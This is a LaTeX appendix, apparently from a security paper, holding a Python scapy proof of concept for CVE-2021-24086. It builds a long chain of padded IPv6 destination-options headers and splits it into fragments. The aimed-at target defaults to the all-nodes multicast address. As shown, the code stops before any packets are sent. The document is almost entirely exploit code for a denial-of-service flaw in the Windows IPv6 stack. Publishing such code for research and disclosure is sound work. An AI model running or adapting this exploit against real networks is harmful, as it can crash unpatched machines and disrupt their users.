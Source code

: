 \documentclass{report}
\begin{document}
\section*{ for CVE-2021-24086}
\label{appendix:poc}
\begin{verbatim}
from scapy.all import *
import argparse

def custom_fragment6(target, frag_id, bytes, nh, frag_size = 1008):
    assert (frag_size % 8) == 0
    rest = bytes
    offset = 0
    frags = []

    while len(rest) > 0:
        chunk = rest[: frag_size]
        rest = rest[len(chunk): ]
        last_pkt = len(rest) == 0

        # 0 -> No more / 1 -> More
        m = 0 if last_pkt else 1
        assert offset < 8191
        pkt = Ether() \
            / IPv6(dst = target) \
            / IPv6ExtHdrFragment(m = m, nh = nh, id = frag_id, offset = offset) \
            / chunk

        offset += (len(chunk) // 8)
        frags.append(pkt)
    return frags

def main():
    parser = argparse.ArgumentParser()
    parser.add_argument('--target', default = 'ff02::1')
    parser.add_argument('--iface', default = 'eth1')
    args = parser.parse_args()

    first_fragment_id = random.randint(0, 0xffffffff)
    second_fragment_id = random.randint(0, 0xffffffff)

    packet1 = IPv6ExtHdrDestOpt(options = [
            PadN(optdata=('a'*0xff)),
            PadN(optdata=('a'*0xff)),
            PadN(optdata=('a'*0xff)),
            PadN(optdata=('a'*0xff)),
            PadN(optdata=('a'*0xff)),
            PadN(optdata=('a'*0xff)),
            PadN(optdata=('a'*0xff)),
        ])

    for i in range(35):
        packet1 /= IPv6ExtHdrDestOpt(options = [
            PadN(optdata=('a'*0xff)),
            PadN(optdata=('a'*0xff)),
            PadN(optdata=('a'*0xff)),
            PadN(optdata=('a'*0xff)),
            PadN(optdata=('a'*0xff)),
            PadN(optdata=('a'*0xff)),
            PadN(optdata=('a'*0xff)),
        ])
    
    packet1 /= IPv6ExtHdrDestOpt(options = [
            PadN(optdata=('a'*0xff)),
            PadN(optdata=('a'*0xa0)),
        ])
    packet1 /= IPv6ExtHdrFragment(
        id = second_fragment_id, m = 1,
        nh = 17, offset = 0
    ) \
    / UDP(dport = 31337, sport = 31337, chksum=0x7e7f)


\end{verbatim}
\end{document}

